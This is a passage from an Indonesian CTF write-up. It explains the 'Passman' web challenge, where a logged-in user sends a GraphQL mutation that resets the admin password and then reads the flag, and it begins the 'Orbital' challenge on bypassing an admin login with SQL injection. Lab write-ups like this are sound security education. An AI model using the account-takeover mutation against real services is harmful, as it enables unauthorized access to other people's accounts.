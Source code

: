 ```js
```

## **Exploit**

Jadi untuk melakukan exploitasi kita harus merubah password dari akun admin, dapat kita lihat di `entrypoint.sh`

```js
...snip...
INSERT INTO passman.users (username, password, email, is_admin)
VALUES
    ('admin', '$(genPass)', 'admin@passman.htb', 1),
    ('louisbarnett', '$(genPass)', 'louis_p_barnett@mailinator.com', 0),
    ('ninaviola', '$(genPass)', 'ninaviola57331@mailinator.com', 0),
    ('alvinfisher', '$(genPass)', 'alvinfisher1979@mailinator.com', 0);
...snip...

```

Ingat kita perlu register dan login terlebih dahulu dikarenakan fungsi `UpdatePassword` hanya bisa dilakukan ketika kita sudah login.

![https://i.imgur.com/MNzs4xd.png](https://i.imgur.com/MNzs4xd.png)

![https://i.imgur.com/uN6Gc8x.png](https://i.imgur.com/uN6Gc8x.png)

Sekarang kita perlu melakukan mutation berikut untuk mengganti password dari admin menjadi foo.

```gql
mutation { UpdatePassword(username:"admin",password:"foo") { message } }
```

![https://i.imgur.com/Bi9l9EZ.png](https://i.imgur.com/Bi9l9EZ.png)

Kita login menggunakan akun admin menggunakan password `foo`

![https://i.imgur.com/m9Jn0o3.png](https://i.imgur.com/m9Jn0o3.png)

Dan kita akan mendapatkan flagnya di bagian password.

![https://i.imgur.com/Diadr73.png](https://i.imgur.com/Diadr73.png)

# **Orbital - web**

Tag: (Union SQL Injection, LFI)

## **Bypass Admin Login**

Pertama kita harus membypass login page berikut, untuk mendapat akses ke fungsi web lainnya.

![https://i.imgur.com/MZbvAEi.png](https://i.imgur.com/MZbvAEi.png)
